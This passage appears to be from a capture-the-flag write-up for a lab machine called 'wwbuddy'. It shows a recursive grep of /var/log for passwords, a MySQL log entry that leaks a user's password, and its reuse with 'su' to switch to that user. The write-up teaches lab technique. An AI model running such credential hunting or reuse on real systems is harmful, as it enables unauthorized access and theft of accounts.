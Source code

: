 ### Reading log files
```console
www-data@wwbuddy:/var/log$ grep -Ri password 2>/dev/null                                                                                                                        mysql/general.log:2020-07-25T14:41:25.299556Z       8 Connect   Access denied for user 'root'@'localhost' (using password: YES)
mysql/general.log:2020-07-25T14:41:25.309467Z       9 Connect   Access denied for user 'root'@'localhost' (using password: YES)                                                 
mysql/general.log:2020-07-25T14:41:25.317916Z      10 Connect   Access denied for user 'root'@'localhost' (using password: NO)                          
mysql/general.log:2020-07-25T15:01:40.143115Z      12 Prepare   SELECT id, username, password FROM users WHERE username = ?                           
mysql/general.log:2020-07-25T15:01:40.143760Z      12 Execute   SELECT id, username, password FROM users WHERE username = 'RobertoyVno*****68wf'                              mysql/general.log:2020-07-25T15:02:00.018975Z      13 Prepare   SELECT id, username, password FROM users WHERE username = ?                                                     
mysql/general.log:2020-07-25T15:02:00.019056Z      13 Execute   SELECT id, username, password FROM users WHERE username = 'Roberto'                                             
installer/installer-journal.txt:Jul 24 19:13:35 ubuntu-server systemd[1]: Started Forward Password Requests to Wall Directory Watch.                                            
installer/installer-journal.txt:Jul 24 19:13:36 ubuntu-server systemd[1]: Started Dispatch Password Requests to Console Directory Watch.                                        
installer/installer-journal.txt:Jul 24 19:19:40 ubuntu-server usermod[13715]: change user 'sshd' password                                                                       installer/installer-journal.txt:Jul 24 19:19:41 ubuntu-server chage[13720]: changed password expiry for sshd
........................
........................
```
There is a particular entry which looks like username:password combination as user might have mistakenly typed out password on username field.   
**'RobertoyVno******8wf'**   
This info could also be found from result of linpeas as it looks for the potential passwords inside log files.

### Trying to login as roberto
```console
www-data@wwbuddy:/var/log$ su roberto
Password: 
$ id
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
```
And we login as roberto.

### On Roberto home directory
```console
roberto@wwbuddy:~$ ls -la
total 32
drwx------ 4 roberto roberto 4096 Nov  8 12:06 .
drwxr-xr-x 5 root    root    4096 Jul 28 17:49 ..
-rw------- 1 roberto roberto    0 Jul 28 04:20 .bash_history
-rw-r--r-- 1 roberto roberto  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 roberto roberto 3771 Apr  4  2018 .bashrc
drwx------ 3 roberto roberto 4096 Nov  8 12:06 .gnupg
-rw-rw-r-- 1 roberto roberto  246 Jul 27 21:25 importante.txt
drwxrwxr-x 3 roberto roberto 4096 Jul 27 21:07 .local
-rw-r--r-- 1 roberto roberto  807 Apr  4  2018 .profile
```
